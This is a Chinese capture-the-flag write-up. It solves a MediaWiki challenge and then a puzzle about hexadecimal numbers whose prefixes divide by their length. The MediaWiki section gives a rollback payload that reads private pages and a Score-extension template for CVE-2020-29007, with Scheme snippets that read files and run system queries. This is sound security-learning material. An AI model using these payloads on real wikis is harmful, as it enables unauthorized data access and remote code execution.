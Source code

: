

## 私有笔记

攻击目标是MediaWiki，搜索MediaWiki相关的安全漏洞，发现2021年12月的[版本更新](https://www.mediawiki.org/wiki/2021-12_security_release/FAQ)提到了一系列无权限任意访问的漏洞，和首页查到的版本号刚好一致。说明里明确提到了`action=rollback&from={{:private page}}`这种攻击方式。首页提示了flag的页面名是`Flag`，替换到payload里即可获取Flag页面的内容，拿到flag1。

flag2的提示是尝试RCE，二阶段提示了漏洞来源是Score扩展。查到了[CVE-2020-29007](https://github.com/seqred-s-a/cve-2020-29007)和官方的[讨论串](https://phabricator.wikimedia.org/T257062)，尝试并简化后，获得RCE的执行模板：

```
<score>\new Staff <<{c^# 

[scheme code goes here] 

}>></score>
```

这里用的是scheme语言，根据[入门教程](https://deathking.github.io/yast-cn/)设计了文件读取的代码，效果如下：

```scheme
# 1. 确认flag2的位置
(if (file-exists? "/flag2") "true" "false") 

# 2. 尝试获取系统信息
(object->string (uname))

# 3. 文件读取
(object->string (read (open-input-file "/flag2")))
```

![](/img/geek2/3.png)



## 381654729

要求找到16进制下任意前n位都能整除n的数。由于满足条件的n位数，前n-1位一定也满足条件，记忆化搜索即可。符合条件的数最大只有39位，依次检查3个满足条件的数找到flag。
